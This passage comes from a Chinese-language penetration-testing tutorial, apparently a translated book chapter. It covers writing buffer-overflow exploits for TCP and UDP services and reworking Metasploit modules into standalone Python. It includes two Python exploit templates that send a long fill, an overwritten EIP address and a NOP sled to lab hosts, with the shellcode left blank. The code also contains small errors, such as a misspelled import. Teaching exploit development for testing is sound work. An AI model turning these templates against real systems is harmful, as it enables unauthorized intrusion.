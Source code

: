 这种形式的利用是你可能会遇到的最罕见的，因为通常不会授予你任何额外的权限。创建这类利用时，通常是为了查看通过白名单程序与用户级权限相比可能被授予的额外访问权限。请记住，这种类型的利用比恶意文件、TCP 或 UDP 服务更难编写。在另一方面，你可能会编写的最常见的利用是 TCP 服务利用。

## 通过 TCP 服务利用系统

通常情况下，你会发现可以通过 TCP 进行利用的服务。这意味着，为了进行分析，你需要设置一个测试盒，其中安装了 Immunity 或其他调试器以及正在运行的服务。你需要将 Immunity 连接到该服务并测试你之前所做的利用。

```py
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.169"
rport = 23
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
shell =() #Code to insert
# NOPs to fill the remaining space
exploit = fill + eip + offset + shell
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.sendto(exploit, (rhost, rport))
```

如果第七章中突出显示的 TFTP 服务容易受到潜在的缓冲区溢出攻击，我们将考虑为 UDP 服务创建一个利用。

## 通过 UDP 服务利用系统

生成 UDP 服务的利用与 TCP 服务非常相似。唯一的区别是你正在使用不同的通信协议。

```py
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.169"
rport = 69
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =() #Code to insert
# NOPs to fill the remaining space
exploit = fill + eip + offset + shell
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
client.sendto(exploit, (rhost, rport))
```

现在你已经了解了你可能编写的最常见类型的利用的基础知识，让我们来看一下如何反向操作 Metasploit 模块。

# 反向操作 Metasploit 模块

很多时候，你可能会发现一个服务是可利用的，但 Metasploit 模块并没有构建用于利用该服务版本或特定操作系统版本的功能。这并不罕见，只需回想一下之前编写利用的情况。根据可能已被引用的 DLL，该模块可能没有针对特定操作系统进行更新。此外，如果新版本的操作系统发布，而程序或服务仍然可行，你可能需要扩展该模块。

回想一下第五章中的*用 Python 利用服务*，以及我们如何进行研究以查找内核是否存在漏洞。考虑进行类似研究可能会导致对潜在缓冲区溢出漏洞的引用。你可以从头开始，也可以将 Metasploit 模块反向操作为一个独立的 Python 脚本，并轻松测试扩展功能。然后，你可以将更改合并到 Metasploit 模块中，甚至创建你自己的模块。
